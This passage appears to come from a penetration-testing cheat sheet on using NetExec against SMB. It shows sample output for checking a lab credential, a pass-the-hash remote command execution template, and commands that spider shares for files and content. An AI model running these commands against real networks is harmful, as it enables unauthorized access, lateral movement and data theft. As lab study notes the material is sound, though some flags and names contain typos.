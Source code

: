 If the results include the `domain` , e.g. (`seruca.yzx`) → a domain account.&#x20;

{% code overflow="wrap" %}
```bash
...
SMB 192.168.X.97  445 DC01   [+] secura.yzx\bob:Pass123!
```
{% endcode %}

If it has `(Pw3d!)` at the end → Local `Administrator` account.

{% code overflow="wrap" %}
```bash
...
SMB 192.168.X.95 445 SECURE [+] secura.yzx\bob:Pass123! (Pwn3d!)
```
{% endcode %}
{% endtab %}
{% endtabs %}

### RCE

{% tabs %}
{% tab title="PtH" %}
{% code overflow="wrap" %}
```bash
nxc smb <target> -u <user> --H <hash> -X <command>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Spidering

{% tabs %}
{% tab title="Filters" %}
```bash
# Only spider files, enable file content searching
nxc smb <ip> -u <user> -p <pass> --spider <share> --only-files --content

# Spider a specific directory
nxc smb <ip> -u <user> -p <pass> --spider <share> --spider-folder <folder>
```
{% endtab %}

{% tab title="TXT Files" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --pattern txt
```
{% endtab %}

{% tab title="File Content" %}
```bash
nxc smb <ip> -u <user> -p <pass> --spider <share> --content --regex Encrypt
```
{% endtab %}
